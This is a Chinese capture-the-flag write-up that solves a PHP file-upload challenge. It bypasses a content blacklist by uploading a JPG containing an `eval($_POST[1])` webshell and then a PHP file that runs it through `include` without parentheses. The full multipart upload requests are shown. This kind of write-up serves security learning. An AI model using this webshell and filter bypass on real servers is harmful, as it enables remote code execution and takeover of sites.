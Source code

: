 开题，直接给了源码



![image-20240808144350780](https://img-blog.csdnimg.cn/img_convert/fb83ef25449612e964e8c8d27f133d20.png)

是个文件上传，后缀和内容均有过滤。题目没有上传按钮，应该是我自己写一个html表单上传，注意name="uploaded_file"

```prism
<form action="http://152.136.11.155:10108/" enctype="multipart/form-data" method="post" >
    
    <input name="uploaded_file" type="file" />
    <input type="submit" type="gogogo!" />
   
</form>

```

抓个包慢慢调，后缀是php确定了，其他后缀不解析，看看内容怎么绕过滤

内容过滤是这些：

```has-numbering
$dangerous = array('eval',"[","]","`","*","+","|","url","flag","{","}","@","(",")");

```

呜，过滤了括号我很难做阿，难做那就别做了（bushi

首要思路是找个可以不用括号的函数，看下图你应该懂我意思了吧



![image-20240808151650246](https://img-blog.csdnimg.cn/img_convert/0ef3c45c48b2e645c9368bfe5427c812.png)

include不用括号也行，同时只包含内容不管后缀即文件种类

那我们上传一个带马的jpg。



![image-20240808151912279](https://img-blog.csdnimg.cn/img_convert/7e52ff61689ade2cebcb37edf9c6628f.png)

```has-numbering
------WebKitFormBoundary6ofY3JQEOAOo4nWV
Content-Disposition: form-data; name="uploaded_file"; filename="myshell.jpg"
Content-Type: application/octet-stream

<?php eval($_POST[1]);echo 'include success!!!'?>
------WebKitFormBoundary6ofY3JQEOAOo4nWV--

```

然后上传一个php去包含之前的jpg



![image-20240808152049757](https://img-blog.csdnimg.cn/img_convert/8c7cea761025c5c1444dddf6370d465a.png)

```has-numbering
------WebKitFormBoundary6ofY3JQEOAOo4nWV
Content-Disposition: form-data; name="uploaded_file"; filename="myshell.php"
Content-Type: application/octet-stream

<?php
include '../a3a3ba08c46190b5eb693450637552d5/c8f8f62b73b118b60546893b80b08a48.jpg';
echo 'this is include';
?>
------WebKitFormBoundary6ofY3JQEOAOo4nWV--

```
